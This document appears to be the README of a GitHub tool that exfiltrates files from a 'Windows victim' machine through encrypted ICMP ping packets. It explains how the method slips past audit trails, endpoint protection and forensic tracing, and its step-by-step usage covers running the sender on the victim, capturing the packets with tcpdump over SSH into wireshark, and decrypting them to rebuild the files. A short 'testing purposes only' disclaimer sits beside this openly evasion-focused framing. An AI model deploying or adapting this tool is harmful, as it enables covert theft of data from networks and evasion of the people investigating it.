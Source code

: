 # Overview

Based on MITRE Tactics: T1572 Protocol Tunneling, T1030 Data Transfer Size Limits, T1567 Exfiltration Over Web Service, T1090 Multi-hop Proxy

Encrypted version for ICMP tunneling. 

Exfiltration of data in a restricted network environment can be a tough thing to do. When you do things like plugging USB, moving and sending files across networks to yourself. It all leaves an audit trail. This audit trail can be even stronger when used with powerful endpoint protection tools like CrowdStrike. Even when you try to cover your tracks and footprints, using VPNs and deleting logs files, there is still a possibility of being traced back to you when digital forensics is being conducted. This could result in the court ordering ISP, service providers to give up subscriber’s VPN information. 

ICMP packets are usually used for troubleshooting throughout networks or to check whether hosts are alive. We utilise this to send information or files out to other public endhosts.  

This is for testing purposes only. Use it at your own risk and only at authorised computers. Some of the stuff are hardcoded so better look before using anything. Thanks

## Topology 
Exfiltration of data scenario
![ICMP an0nymizer (1)](https://user-images.githubusercontent.com/91510432/199385807-3f38685b-4c55-4eba-bd30-271af9bc2d56.png)

### Overview of an encrypted packet
![Screenshot_3](https://user-images.githubusercontent.com/91510432/199401514-62c5d4ef-88d5-4632-8312-259aee4c9328.png)


### Usage 
Two ways to run. 
- Through the exe file. You do not need to install python and its dependencies. 
- The normal python method

1. `pip3 install -r requirements.txt` (Only need if you use python script method)

2. Move the Documents folder to your Desktop (Windows victim)

3. Using another Linux machine. You can use VPN or proxychains here whatever.
    - Move your private.pem key here.
    - Move decryptor.py here.

4. Sniffing of packets and decrypting it (Sniffing and reconstructing files or information)
    - If you are sniffing through SSH from a server. Run the command `ssh -i webserver.pem root@<ip address> tcpdump -U -s0 -w - 'not port 22' | wireshark -k -i -`
    - If you are sniffing through a normal private network. Run wireshark and save the pcap file.
    - Copy the temporary wireshark pcap filepath output
    - On the victim machine, execute the python command `python ./ping.py` OR run the ping.exe file located in the dist folder.
    - Monitor wireshark for ICMP pings with bigger than usual data blocks. Stop when all packets are sent
    - Run the command to start the reconstructing files with the filepath copied `python ./decryptor.py -p <paste copied filepath here>`

